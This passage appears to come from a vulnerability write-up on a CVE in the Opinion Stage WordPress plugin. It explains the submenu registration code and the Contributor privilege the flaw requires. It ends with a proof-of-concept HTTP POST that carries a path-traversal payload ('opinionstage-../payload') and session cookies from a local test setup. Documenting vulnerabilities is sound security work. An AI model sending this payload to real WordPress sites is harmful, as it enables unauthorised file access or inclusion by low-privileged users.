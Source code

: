 ```php {filename="Modules/Admin.php v19.11.0" hl_lines=[3,4,15,26]}
            );
            add_submenu_page( OPINIONSTAGE_GETTING_STARTED_SLUG, 'Get Started', 'Get Started', 'edit_posts', OPINIONSTAGE_GETTING_STARTED_SLUG, [ $this, 'load_template' ] );
        }
    }
}
```

`register_menu_page()` registers two submenus with `load_template` as the callback, depending on the user's login state.

To access the **admin submenu**, the user must be logged into WordPress with at least **Contributor** privileges → therefore, the required privilege for this CVE is **Contributor**.

Two slugs are declared for the submenus:

```php
const string OPINIONSTAGE_MENU_SLUG = "opinionstage-settings"
const string OPINIONSTAGE_GETTING_STARTED_SLUG = "opinionstage-getting-started"
```

## Exploit

### Proof of Concept (PoC)

1. Login with a Contributor account
2. Send a POST request:

```http
POST /wp-admin/admin.php?page=opinionstage-getting-started HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C95a2ae30f463a8c1d010a70313f3f305e2c6e99b18056b7827132b809329c400; wp-settings-time-3=1760279584; intercom-id-y45xtsgw=f5cf9200-6f02-4b61-bb0a-94ef864e710e; intercom-session-y45xtsgw=; intercom-device-id-y45xtsgw=40def9f9-8e76-4d64-9bbc-28c12b70544f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C2f86a0974e1c1d7b5ef8322a588e50ef5879561d1fc2f84b7c6eddf5c98ffcce
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-PwnFox-Color: green
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

page=opinionstage-../payload
```
